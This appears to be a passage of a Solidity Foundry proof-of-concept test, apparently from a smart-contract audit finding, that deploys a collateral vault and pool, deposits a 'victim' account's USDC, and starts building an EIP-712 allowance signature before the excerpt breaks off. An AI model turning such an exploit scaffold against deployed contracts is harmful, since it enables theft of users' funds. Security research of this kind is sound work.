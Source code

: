 ```
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).initialize(CollateralVault(CollateralVault_contract), 1, Owner, Owner, Owner, Owner, Owner); 
}

function setup_precondition() public {
    
    console.log(&quot;Setup Precondition for the test case&quot;);
    deployContract();       
    initialize(); 
    console.log(&quot;Approve the TimeBasedCollateralPool_contract as the collateralizable contract&quot;);
    CollateralVault.CollateralizableContractApprovalConfig[] memory _collateralizableContractApprovals &#x3D; new CollateralVault.CollateralizableContractApprovalConfig[](1);
    _collateralizableContractApprovals[0] &#x3D; CollateralVault.CollateralizableContractApprovalConfig(TimeBasedCollateralPool_contract, true);
    vm.startPrank(CollateralVault_owner);
    CollateralVault(CollateralVault_contract).upsertCollateralizableContractApprovals(_collateralizableContractApprovals);
    vm.stopPrank(); 
    depositToCollateralVault(); 

} 

function depositToCollateralVault() public {
    vm.startPrank(victim); 
    console.log(&quot;Balance of USDC before depositing: &quot;,IERC20(USDC).balanceOf(victim));
    console.log(&quot;Approve the CollateralVault_contract to spend USDC to deposit USDC&quot;);
    IERC20(USDC).approve(CollateralVault_contract, 10000*10**6); 

    address[] memory _tokenAddresses &#x3D; new address[](1);
    _tokenAddresses[0] &#x3D; USDC;
    uint256[] memory _amounts &#x3D; new uint256[](1);
    _amounts[0] &#x3D; 10000*10**6; 
    console.log(&quot;Step: Deposit USDC to CollateralVault for the victim&quot;);
    CollateralVault(CollateralVault_contract).depositToAccount(victim, _tokenAddresses, _amounts);
    vm.stopPrank();

}

bytes32 public constant COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH &#x3D;
    keccak256(
        &quot;CollateralizableTokenAllowanceAdjustment(address collateralizableAddress,address tokenAddress,int256 allowanceAdjustment,uint256 approverNonce)&quot;
    );

bytes32 private constant TYPE_HASH &#x3D;
    keccak256(&quot;EIP712Domain(string name,string version,uint256 chainId,address verifyingContract)&quot;);

function CreateSignature() public returns ( bytes memory signature){
    
    address _collateralizableContractAddress &#x3D; TimeBasedCollateralPool_contract; 
    uint256 _allowanceAdjustment &#x3D; 100*10**6; 
    (, string memory name, string memory  version, , , ,   ) &#x3D; CollateralVault(CollateralVault_contract).eip712Domain(); 
    
    bytes32 _buildDomainSeparator &#x3D; keccak256(abi.encode(TYPE_HASH, keccak256(bytes(name)),  keccak256(bytes(version)), block.chainid, CollateralVault_contract));

    bytes32 structHash &#x3D; keccak256(
        abi.encode(
            COLLATERALIZABLE_TOKEN_ALLOWANCE_ADJUSTMENT_TYPEHASH,
            _collateralizableContractAddress,
```